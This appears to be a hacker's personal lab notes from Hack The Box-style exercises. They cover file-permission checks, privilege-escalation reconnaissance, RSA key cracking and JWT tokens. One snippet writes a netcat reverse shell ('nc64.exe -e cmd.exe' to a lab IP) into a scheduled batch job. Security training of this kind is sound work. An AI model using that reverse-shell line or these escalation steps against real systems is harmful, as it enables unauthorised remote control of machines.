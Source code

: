 

### Windows - check file permissions via CLI w/ icacls
```cmd
icacls job.bat
```
![[Pasted image 20231028162334.png]]
- F -> full control
- s

### Windows - easy one-liner cmd to create netcat process to connect back to a listener
```cmd
echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.15.241 1234 
> c:\Log-Management\job.bat
```


### Strings
- use strings on a file to return only human readable strings
- For example, used on a php file - `strings login.php.swp`
- out to a `strings login.php.swp >> file.txt`


### tac
- cat, but backwards
- reads a file in reverse, bottom up


### Check config.php for sensitive data
- `/var/www/html/login/config.php`



### Linux - check user perm
- id
- sudo -l

![[Pasted image 20231030184155.png]]


### Decrypt encrypted file with private key

`openssl rsautl -decrypt -inkey private.pub -in flag.enc -out flag.bin`

- you can also use rsactftool.py to try to crack the public key if you got it
	- `./RsaCtfTool.py --private --publickey /home/htb-jakeinthebox/key.pub --output private.pub`


### JWT Session token
- cookies can be in the form of a JWT - json web token
- they look like this `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c`
- Notice the leading `ey` - that is giveaway
- you can use tools like jwt.io to decrypt the jwt cookie into it's json format
- jwt_tool https://github.com/ticarpi/jwt_tool to exploit vulnerable tokens
